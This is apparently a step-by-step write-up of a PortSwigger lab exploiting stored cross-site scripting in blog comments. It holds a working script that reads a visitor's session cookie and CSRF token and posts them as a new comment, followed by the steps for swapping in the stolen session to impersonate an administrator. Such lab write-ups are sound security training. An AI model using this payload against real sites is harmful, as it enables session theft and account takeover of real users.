










# Exploiting Cross-Site Scripting to Steal Cookies

**Author:** Dnyaneshwar Yadav

---

## Overview

This lab contains a **Stored Cross-Site Scripting (XSS)** vulnerability in the blog comments function.

A simulated victim user views all comments after they are posted. The goal is to exploit this vulnerability to **exfiltrate the victim's session cookie** and use it to impersonate the victim.

**Key Challenge:** The firewall blocks interactions with external systems, so the stolen cookie must be exfiltrated by posting it as another comment visible on the same blog.

**Goal:** Steal the victim's session cookie and impersonate them to solve the lab.

---

## Lab Information

- **Difficulty Level:** Practitioner
- **Vulnerability Type:** Stored XSS (Cookie Theft)
- **Target:** Blog comment functionality
- **Constraint:** Cannot use external systems (Burp Collaborator alternative solution)

---

## Solution

### Step 1: Review the lab description

Open the lab and read the description carefully.

**Key points:**

* Stored XSS in blog comments
* Victim user views all posted comments
* Must exfiltrate victim's session cookie
* Firewall blocks external systems
* Alternative solution: Post stolen cookie as a comment



---

### Step 2: Test for XSS vulnerability with basic payload

Navigate to any blog post and submit a test comment with a basic XSS payload:

**Payload:**
```html
<script>alert(1)</script>
```

**Comment details:**
- Comment: `<script>alert(1)</script>`
- Name: `test`
- Email: `test@test.com`
- Website: `http://test.com`



---

### Step 3: Confirm XSS vulnerability

After posting the comment, the page reloads and the alert popup appears.

This confirms that:
* The application is vulnerable to **Stored XSS**
* JavaScript code is executed when the page loads
* Any user viewing this blog post will execute our script



---

### Step 4: Analyze CSRF protection in Burp Suite

Open **Burp Suite** and intercept the comment submission request.

**Observation:**

The POST request to `/post/comment` includes:
- **csrf** token (required)
- **postId** 
- **comment**
- **name**
- **email**
- **website**

**CSRF Token is mandatory** - Every comment submission requires a valid CSRF token.



---

### Step 5: Inspect CSRF token in DOM

Right-click on the page, select **Inspect**, and locate the CSRF token field.

**Finding:**
```html
<input required="" type="hidden" name="csrf" value="...">
```

The CSRF token is in a **hidden input field** with:
- **Tag name:** `input`
- **Attribute name:** `value`

**JavaScript to extract CSRF token:**
```javascript
document.getElementsByTagName('input')[0].getAttribute('value')
```

This retrieves the CSRF token dynamically.



---

### Step 6: Craft cookie-stealing payload

Create a payload that:
1. Extracts the CSRF token dynamically
2. Builds POST data containing the victim's cookie
3. Automatically posts a new comment with the stolen cookie

**Final Payload:**
```javascript
<script>
window.onload = function(){
var post_data = "csrf="+document.getElementsByTagName('input')[0].getAttribute('value')+"&postId=4&comment="+document.cookie+"&name=anu&email=anu@snka.com&website=http://new.com"
fetch("https://0a0e00b904175bf1805d1c07003a00ad.web-security-academy.net/post/comment",{
method: 'POST',
mode: 'no-cors',
body: post_data
});
}
</script>
```

**Payload breakdown:**

* `window.onload` - Executes when page loads
* Extracts CSRF token from first input field
* `document.cookie` - Gets victim's session cookie
* Constructs POST data with cookie in comment field
* Uses `fetch()` to POST a new comment containing the cookie
* `mode: 'no-cors'` - Bypasses CORS restrictions



---

### Step 7: Post the malicious payload

Submit the payload as a comment:

- **Comment:** (Entire cookie-stealing script)
- **Name:** `test`
- **Email:** `test@test.com`
- **Website:** `http://test.com`

Click **Post Comment**.



---

### Step 8: Stolen cookie appears in comments

When the victim (administrator) views the blog post:

1. The malicious script executes
2. Extracts the CSRF token
3. Captures the victim's `document.cookie`
4. Posts a new comment containing the stolen session cookie

**Result:**

Scroll down to the comments section. A new comment appears automatically containing:
```
session=zA5XAY0WofWW7b6bVmPgvq1e81pNQOkf
```

or
```
secret=26oFc3NEnvb9G7tiJBtEKAlmPMp0NxUY;
session=ClJBbw0HOliwtoNGsdYTPhJ25mohBWzA
```

This is the **administrator's session cookie**.



---

### Step 9: Replace session cookie in browser

Copy the stolen session cookie value.

Open **DevTools → Storage → Cookies**.

**Current cookie:**
```
session=ClJBbw0HOl...
```

**Replace with stolen cookie:**

Paste the stolen session value and press **Enter**.



---

### Step 10: Verify impersonation and lab solved

Refresh the page or navigate to **My Account**.

**Result:**

You are now logged in as **administrator**.

The lab is automatically marked as **Solved**.



---

## Result

Successfully exploited a **Stored XSS vulnerability** to:

* Identify stored XSS in blog comment functionality
* Analyze CSRF protection mechanism
* Extract CSRF token dynamically using JavaScript
* Craft a cookie-stealing payload that posts stolen data as a comment
* Capture the administrator's session cookie
* Impersonate the administrator by replacing the session cookie

This lab demonstrates the **severe impact of XSS vulnerabilities** - session hijacking and complete account takeover.

---

## Alternative Note

**Note:** While this solution posts the cookie publicly in comments (less subtle), it demonstrates the principle of cookie exfiltration. In real scenarios, tools like **Burp Collaborator** would be used to exfiltrate data to an attacker-controlled server without leaving visible traces.

---

## Screenshots Folder Structure
```text
screenshots/
├── 01-lab-description.png
├── 02-basic-xss-test.png
├── 03-alert-popup.png
├── 04-burp-csrf-token.png
├── 05-devtools-csrf-field.png
├── 06-cookie-stealer-payload.png
├── 07-post-malicious-comment.png
├── 08-stolen-cookie-comments.png
├── 09-replace-cookie.png
└── 10-lab-solved-admin.png
```

---

## Disclaimer

This repository is for educational purposes only. The techniques demonstrated here should only be used in authorized environments such as security labs and CTF challenges.

---